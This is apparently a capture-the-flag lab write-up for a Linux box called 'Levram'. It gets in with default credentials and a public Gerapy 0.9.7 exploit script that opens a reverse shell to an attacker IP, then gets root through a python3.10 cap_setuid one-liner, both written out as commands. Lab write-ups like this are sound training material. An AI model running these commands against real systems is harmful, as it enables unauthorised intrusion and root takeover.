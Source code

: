 # 🐍 Levram (Linux)

## 🌐 Initial Foothold

- 🌍 Accessed the web interface at: `http://192.168.116.24:8000`
- 🔑 Logged in using default credentials: `admin:admin`
- 🛠️ Exploited **Gerapy 0.9.7** using the Python script `50640.py`
- 🧪 Created a project via the web interface at `/#/project`
- 📡 Started a listener on port 22 (though unclear if required)
- 🚀 Executed the following command to trigger the reverse shell:
  ```bash
  python 50640.py -t 192.168.116.24 -p 8000 -L 192.168.45.166 -P 22
  ```

## 🧑‍💻 Privilege Escalation

- 🔍 Ran `linpeas.sh` and discovered:
  ```
  /usr/bin/python3.10 cap_setuid=ep
  ```
- 📚 Referenced articles:
  - [🔗 Hacking Articles](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/)
  - [🔗 HackTricks](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/linux-capabilities.html)
- 🔓 Gained root shell with:
  ```bash
  /usr/bin/python3.10 -c 'import os; os.setuid(0); os.system("/bin/bash")'
  ```

---

## 🔑 Key Takeaways

- 🗺️ Always check web interfaces and default credentials
- 🐍 Exploiting Python Capabilities can easily lead to root
- 🧪 Debugging dev tools like Gerapy may introduce serious vulnerabilities
- ⚙️ Capabilities misconfiguration is a critical vector for privilege escalation
